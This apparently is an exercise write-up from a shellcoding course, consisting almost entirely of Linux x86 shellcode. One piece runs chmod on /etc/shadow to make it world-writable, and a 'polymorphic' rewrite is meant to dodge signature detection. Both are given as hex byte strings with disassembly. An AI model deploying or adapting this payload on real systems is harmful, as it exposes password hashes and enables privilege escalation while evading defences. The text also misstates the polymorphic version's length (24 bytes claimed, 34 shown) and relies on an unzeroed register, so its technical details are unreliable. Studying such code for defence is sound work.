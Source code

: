 ## Initial nasm code

Original shellcode: [Link](http://shell-storm.org/shellcode/files/shellcode-566.php)

Length: 27 bytes

Obtain from running: 

    echo -ne "\xb0\x0f\x99\x52\x68\x61\x64\x6f\x77\x68\x63\x2f\x73\x68\x68\x2f\x2f\x65\x74\x89\xe3\x66\xb9\xb6\x01\xcd\x80" | ndisasm -u -

    ; chmod("//etc/shadow", 0666);
    00000000  B00F              mov al,0xf
    00000002  99                cdq
    00000003  52                push edx
    00000004  6861646F77        push dword 0x776f6461
    00000009  68632F7368        push dword 0x68732f63
    0000000E  682F2F6574        push dword 0x74652f2f
    00000013  89E3              mov ebx,esp
    00000015  66B9B601          mov cx,0x1b6
    00000019  CD80              int 0x80


    
  
 ## Polymorphic nasm code

Length: 24 bytes  

Obtain from running: 

    echo -ne "\x6a\x0f\x58\x51\x68\x61\x64\x6f\x77\x68\x63\x2f\x73\x68\x68\x2f\x2f\x65\x74\x89\xe3\x68\xb6\x01\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -

    00000000  6A0F              push byte +0xf
    00000002  58                pop eax
    00000003  51                push ecx
    00000004  6861646F77        push dword 0x776f6461
    00000009  68632F7368        push dword 0x68732f63
    0000000E  682F2F6574        push dword 0x74652f2f
    00000013  89E3              mov ebx,esp
    00000015  68B6010000        push dword 0x1b6
    0000001A  59                pop ecx
    0000001B  CD80              int 0x80
    0000001D  6A01              push byte +0x1
    0000001F  58                pop eax
    00000020  CD80              int 0x80
